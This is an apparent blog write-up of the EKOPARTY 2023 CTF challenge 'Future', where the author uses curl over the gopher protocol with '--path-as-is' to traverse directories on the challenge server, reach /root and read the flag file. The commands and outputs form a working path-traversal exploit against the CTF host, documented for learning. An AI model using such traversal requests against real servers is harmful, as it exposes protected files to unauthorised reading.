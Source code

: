 ```yaml
---
title: EKOPARTY 2023 - Future
date: Fri Nov  3 11:31:52 PM +04 2023
categories: [Writeup]
tags: [ctf,ekoparty,ekoparty2023,pwd]
---
```


## Description

![future-1](/assets/images/ekoparty/2023/future-1.png)

<http://go.ctf.site:10070/>

## Solution

The description mentions root and by the time I started solving it already had a hint. This cannot be solved by http protocol, gopher is required to be used.

Simple path traversal:

```bash
└─$ curl gopher://go.ctf.site:10070/0/../ --path-as-is 
1backups	/../backups	go.ctf.site	10070	+
1cache	/../cache	go.ctf.site	10070	+
1gopher	/../gopher	go.ctf.site	10070	+
1local	/../local	go.ctf.site	10070	+
1lock	/../lock	go.ctf.site	10070	+
1log	/../log	go.ctf.site	10070	+
1mail	/../mail	go.ctf.site	10070	+
1opt	/../opt	go.ctf.site	10070	+
1run	/../run	go.ctf.site	10070	+
1spool	/../spool	go.ctf.site	10070	+
1tmp	/../tmp	go.ctf.site	10070	+
```

Going deeper:

```bash
└─$ curl gopher://go.ctf.site:10070/0/../../ --path-as-is
3'/../../var' does not exist (no handler found)		error.host	1
```

Check root directory access:

```bash
└─$ curl gopher://go.ctf.site:10070/0/../../root --path-as-is
0flag	/../../root/flag.txt	go.ctf.site	10070	+

└─$ curl gopher://go.ctf.site:10070/0/../../root/flag.txt --path-as-is
EKO{r00t_was_pwn3d!}
```

> Flag: EKO{r00t_was_pwn3d!}
{: .prompt-tip }